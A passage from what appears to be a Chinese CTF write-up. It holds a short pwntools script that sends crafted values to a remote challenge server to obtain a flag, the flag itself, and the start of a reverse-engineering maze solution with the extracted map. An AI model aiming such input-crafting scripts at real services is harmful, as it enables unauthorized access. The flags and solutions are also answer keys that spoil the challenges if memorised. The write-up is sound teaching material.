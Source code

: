 ```python
from pwn import *
#p=process('./pwn1')
p=remote('188.131.218.201',10001)
buf=0x20
v2=0
p.recvuntil('name:\n')
p.sendline(p64(buf))
p.recvuntil('password:\n')
p.sendline(p64(v2))
p.recvuntil('pai?\n')
p.sendline('1078530000')
p.interactive()
```
得到 flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831235653284.png)
`flag: flag{C_sTr1ng__3nD_f10aT}`
## Re
#### maze
看着题面描述猜测是一道迷宫题
IDA 验证也确实是一道迷宫题
先看看反汇编代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190901083325471.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190901083337368.png)

有一个 check 函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/2019090108392729.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)

以 map 数组为地图,v5 为 map 索引,v6 为输入的字符串索引
把 w s a d 定义为上下左右 ~~(突然想念 4399 )~~

如果 map[v5] 等于 * 或者 # 就退出
map[v5] 等于 & 并且 v6 等于 55 时正确

进一步由上下 +-50 推知 map 每行长为 50
输入长为 55

然后寻找地图

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190901085400550.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)

导出后每行 50 整理得
```
****#*********************************************
****!!********************************************
*****!**!!!!************!!!!!*********************
*****!!!!**!************!***!*********************
***********!************!***!!!!!!!***************
***********!************!*********&***************
***********!!***********!*************************
************!!!!!*******!*************************
****************!!!*****!*************************
******************!*****!*************************
******************!!!!**!*************************
*********************!!!!*************************
**************************************************
**************************************************
**************************************************
```
回看了一下 v5,开始时被赋值为 4
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190901085146373.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)